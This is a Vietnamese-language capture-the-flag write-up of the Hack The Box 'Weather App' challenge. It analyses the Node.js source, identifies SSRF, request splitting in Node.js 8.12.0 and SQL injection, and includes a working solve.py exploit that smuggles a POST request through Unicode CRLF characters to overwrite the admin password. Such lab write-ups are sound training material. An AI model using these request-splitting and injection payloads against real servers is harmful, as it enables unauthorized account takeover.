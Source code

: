 # Weather App --- Hackthebox(CVE 2018-12116 SSRF via request splitting)

Challenge category: Web
Level: Easy

# CHALLENGE DESCRIPTION
A pit of eternal darkness, a mindless journey of abeyance, this feels like a never-ending dream. I think I’m hallucinating with the memories of my past life, it’s a reflection of how thought I would have turned out if I had tried enough. A weatherman, I said! Someone my community would look up to, someone who is to be respected. I guess this is my way of telling you that I’ve been waiting for someone to come and save me. This weather application is notorious for trapping the souls of ambitious weathermen like me. Please defeat the evil bruxa that’s operating this website and set me free!

# OVERVIEW 
Bắt đầu challenge cho ta trang web như sau với chức năng dự báo thời tiết ở khu vực của bạn.

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/d915872a-7c20-4131-8f6f-75216556fe88)

Mình đi đến file của challenge. Bắt đầu với file `package.json`

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/8a24c775-871c-42eb-b35a-7b8aa21024c3)

Từ đây ta biết được rằng challenge được xây dựng bởi  `nodejs version 8.12.0` và ở dependencies là `sqlite-async` nghĩa là app sử dụng sqlite database để lưu trữ data.

Sau đó thì mình có research về [Nodejs-2018-vulnerabilities]([https://nodejs.org/en/download/releases](https://cyber.vumetric.com/vulns/nodejs/node-js/8-12-0/))

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/9157189b-62e2-40be-bd9d-c74dfe8cee77)

Tiếp theo, mình tiếp tục research tiếp về request splitting vuln để note lại idea giải challenge(https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/).

Có thể note lại idea từ bài viết kia là **bởi vì "phiên bản Node.js 8 hoặc thấp hơn không chuẩn hóa các ký tự Unicode có dấu".Nên ta có thể sử dụng cách splitting request.**

## Analyzing code

```Node.js
router.get('/register', (req, res) => {
	return res.sendFile(path.resolve('views/register.html'));
});

router.post('/register', (req, res) => {

	if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
		return res.status(401).end();
	}

	let { username, password } = req.body;

	if (username && password) {
		return db.register(username, password)
			.then(()  => res.send(response('Successfully registered')))
			.catch(() => res.send(response('Something went wrong')));
	}

	return res.send(response('Missing parameters'));
});

router.get('/login', (req, res) => {
	return res.sendFile(path.resolve('views/login.html'));
});

router.post('/login', (req, res) => {
	let { username, password } = req.body;

	if (username && password) {
		return db.isAdmin(username, password)
			.then(admin => {
				if (admin) return res.send(fs.readFileSync('/app/flag').toString());
				return res.send(response('You are not admin'));
			})
			.catch(() => res.send(response('Something went wrong')));
	}
	
	return re.send(response('Missing parameters'));
});

router.post('/api/weather', (req, res) => {
	let { endpoint, city, country } = req.body;

	if (endpoint && city && country) {
		return WeatherHelper.getWeather(res, endpoint, city, country);
	}

	return res.send(response('Missing parameters'));
});
```
Chúng ta có 3 endpoints: `/register`, `/login` và `/api/weather`

Bắt đầu từ phần chính của file `index.js` qua code review, ở trong routes có trang `/register` và `/login` chấp nhận phương thức POST.

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/97b570b6-9af7-4a4f-98ed-acf9a39d2576)

Ở đây chúng ta có thể đăng kí user mới bằng cách request http phương thức POST nếu request đó từ ip local 127.0.0.1 nếu không phải thì sẽ bị fail. 

Thì theo idea được ghi ở overview thì ta cần tạo SSRF. Chúng ta có API, và cái API đó nhận những request từ client để lấy thông tin thời tiết từ tham số (`endpoint`, `country` và `city`) mà được cung cấp.

Và ta có thể chèn endpoint để tạo payload để request POST lên `/register` endpoint sao cho cái request đó xuất hiện lên từ chính nó.

Vậy ta có thêm idea **Tham số endpoint trong /api/weather chứa dữ liệu tải lên có lỗ hổng. Dữ liệu tải lên lỗ hổng này được tạo bởi request POST đến /register và khai thác lỗ hổng SQL trong endpoint API /register.**

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/e03564b4-23ac-4f0f-8c02-b96f9bb6a202)

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/30b5e036-4e20-44be-b077-d7920376f81b)

Tiếp theo trong route `/login` , nếu ta login đúng với admin username và password ta sẽ lấy được flag.

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/c85f2ec6-31c9-4b95-abfb-0247d2f87330)

Mình chuyển sang file `database.js`, function `isAdmin()` kiểm tra xem nều username là admin hay không

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/5e72081f-b91b-48f2-aaaa-3d2331e85e90)

Tiếp theo là function  `migrate`, tạo username là admin với random password cùng lúc với thời gian app chạy

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/85fa12ff-dc34-42cb-8404-37f3d8f885c8)

 ## Conclusion vuln found

 1. Ở request POST http đến `/register`. không có filter cho `username` và `passowrd ` do đó ta có thế áp dụng SQLi.

 2. Trong request POST HTTP tới `/api/weather` là từ máy chủ ứng dụng và không có filter cho các tham số `endpoint, city và country` do đó dễ bị tấn công Server-Side Request Forgery (SSRF).

 3. Web đang chạy trên phiên bản Node.js 8.12.0, có lỗ hổng về HTTP Request Smuggling.
 
 ## Attacking

 Bây giờ mình chạy local bằng cách host weather app sử dụng dockerfile

 ![image](https://github.com/Llam-a/HackTheBox/assets/115911041/45b082a7-7287-4012-9305-e149ce83fe14)

 Đầu tiên là dựa vào SSRF vuln, ta gửi request đến `/register` từ đến máy chủ chính nó

 Bởi vì request được cố định tới http.get ở trong `insideWeather()`-file `helpermethod`. Vậy ta có thề dùng `HTTP request splitting vulnerablity` để đưa request http POST tới `/register` trong tham số `endpoint` của request `/api/weather`.

 Do admin đã đăng kí vào thời gian app khởi động, để overwrite user với password mới ta dùng SQLi querry với tham số `password` của request POST tới `/register`.

Bắt đầu với câu truy vấn để bypass

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/af5ec5ff-8b18-433f-99ec-88418782064c)

Sử dụng keyword `ON CONFLICT` 

`INSERT INTO users (username, password) VALUES ('admin', '1') ON CONFLICT(username) DO UPDATE SET password = 'admin';--')`

Password và username sẽ trở thành:

```
username = "admin" 
password = "1') ON CONFLICT(username) DO UPDATE SET password = 'admin';-- "
```

Tiếp đến là sử dụng splitting unicode  

```
   "\u0120"; space
   "\u010D"; \r
   "\u010A"; \n
   "%27"; singleInvertedConverted
   "%22"; double inverted comma
```

Và ta có solve.py

```python
import requests

username = 'admin' 
password = "111') ON CONFLICT (username) DO UPDATE SET password='123';--"  #SQL injection

username = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
password = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
#print(contentLength)

# \u0120=space char, \u010D=\r and \u010A=\n
endpoint = "127.0.0.1/" + "\u0120" + "HTTP/1.1" + "\u010D\u010A"  +  "Host:" + "\u0120"\
    + "127.0.0.1" + "\u010D\u010A" + "\u010D\u010A" + "POST" + "\u0120" + "/register" +\
    "\u0120" + "HTTP/1.1" + "\u010D\u010A" + "Host:" + "\u0120" + "127.0.0.1" + "\u010D\u010A"\
    + "Content-Type:" + "\u0120" + "application/x-www-form-urlencoded" + "\u010D\u010A" + \
    "Content-Length:" + "\u0120" + str(len(username) + len(password) + 19) + \
    "\u010D\u010A" + "\u010D\u010A" + "username=" + username + "&password=" + password\
    + "\u010D\u010A" + "\u010D\u010A" + "GET" + "\u0120"
r=requests.post('http://localhost/api/weather', json={'endpoint': endpoint, 'city': 'Ho Chi Minh City', 'country': 'VN'},  headers={'Connection':'close'})
print(r.text)
```

Mình thử chạy trên local trước, và lụm key thôi

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/bcdae809-32b0-4fb1-8298-a2d2282b4119)


READMORE

1. https://blog.csdn.net/f_cccc/article/details/116406838

2. https://s-3ntinel.github.io/hackthebox/challenges/web/weather_app/weather_app.html

3. https://infosec.itsmeuday.com/blog/htb_weather_app

4. SQL query https://www.prisma.io/dataguide/postgresql/inserting-and-modifying-data/insert-on-conflict

5. https://dopey.gitbook.io/sh0w-4nd-t3ll/hacker-boy/hackthebox/challenges/weather-app






 










